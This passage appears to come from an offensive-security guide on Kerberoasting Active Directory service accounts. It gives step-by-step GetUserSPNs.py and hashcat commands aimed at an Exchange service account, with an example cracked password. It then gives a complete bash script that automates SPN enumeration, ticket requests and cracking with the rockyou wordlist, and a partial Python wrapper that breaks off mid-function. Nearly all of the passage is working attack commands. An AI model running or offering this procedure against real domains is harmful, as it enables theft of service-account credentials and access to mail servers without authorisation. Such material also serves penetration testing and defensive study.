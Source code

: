 
### Scenario 3: Exchange Service Account
```bash
# 1. Target Exchange-related SPNs
GetUserSPNs.py domain.local/user:pass -dc-ip dc_ip | grep -i exchange

# 2. Request Exchange service tickets
GetUserSPNs.py domain.local/user:pass -dc-ip dc_ip -request-user exchangeservice

# 3. Crack with Exchange-specific wordlist
hashcat -m 13100 exchange_hash.txt exchange_passwords.txt

# 4. Result: exchangeservice:ExchangeAdmin2024!
# 5. Access Exchange servers and mailboxes
```

## Automation and Scripting

### Automated Kerberoasting Script
```bash
#!/bin/bash
# Automated Kerberoasting script

DOMAIN="domain.local"
USERNAME="user"
PASSWORD="password"
DC_IP="192.168.1.10"

echo "[+] Starting Kerberoasting attack"

# 1. Enumerate SPNs
echo "[+] Enumerating SPNs..."
GetUserSPNs.py $DOMAIN/$USERNAME:$PASSWORD -dc-ip $DC_IP > spn_enum.txt

# 2. Request TGS tickets
echo "[+] Requesting TGS tickets..."
GetUserSPNs.py $DOMAIN/$USERNAME:$PASSWORD -dc-ip $DC_IP -request -outputfile kerberoast_hashes.txt

# 3. Start cracking
echo "[+] Starting hash cracking..."
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt --force

# 4. Check results
echo "[+] Checking cracked passwords..."
hashcat -m 13100 kerberoast_hashes.txt --show
```

### Python Integration
```python
#!/usr/bin/env python3
import subprocess
import re
import time

def run_kerberoast(domain, username, password, dc_ip):
    """Run GetUserSPNs and return results"""
    cmd = f"GetUserSPNs.py {domain}/{username}:{password} -dc-ip {dc_ip} -request"
    result = subprocess.run(cmd.split(), capture_output=True, text=True)
    return result.stdout

def extract_hashes(output):
    """Extract hashes from GetUserSPNs output"""
    hash_pattern = r'\$krb5tgs\$23\$.*'
```